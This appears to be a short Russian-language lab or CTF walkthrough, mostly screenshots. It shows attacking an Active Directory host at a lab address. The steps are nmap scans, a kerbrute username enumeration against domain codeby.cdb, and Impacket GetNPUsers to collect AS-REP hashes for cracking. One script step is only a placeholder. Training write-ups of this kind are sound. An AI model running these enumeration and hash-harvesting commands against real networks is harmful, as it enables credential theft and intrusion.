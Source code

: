 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d8548d1-1a8f-4b78-bd5a-8fccb3659957)
```
nmap -p- 192.168.2.2 -v 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcb6da32-cea4-403c-9397-9a3783c16877)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/af92e839-6787-4485-b58f-b592b4985dbd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/535cbc99-318b-4b55-9209-95c67fb518d0)

```
nmap 192.168.2.2 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7da0c360-b644-4881-b0e4-283b041dc9d3)

Формируем список пользователей с помощью скрипта:
```
tut script python
```
Получаем такой файл

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0662a67-eec6-40b9-8fc9-8ba22ac46a3e)

+ добавляем admin, administrator, Administrator, Admin и т.д.

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/

https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.2 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/05796fc8-26cd-4a58-a283-2957d77a9a64)

https://wadcoms.github.io/wadcoms/Impacket-GetNPUsers/
https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py test.local/ -dc-ip 192.168.2.2 -usersfile user-hack.txt -format hashcat -outputfile user-hashes.txt
```
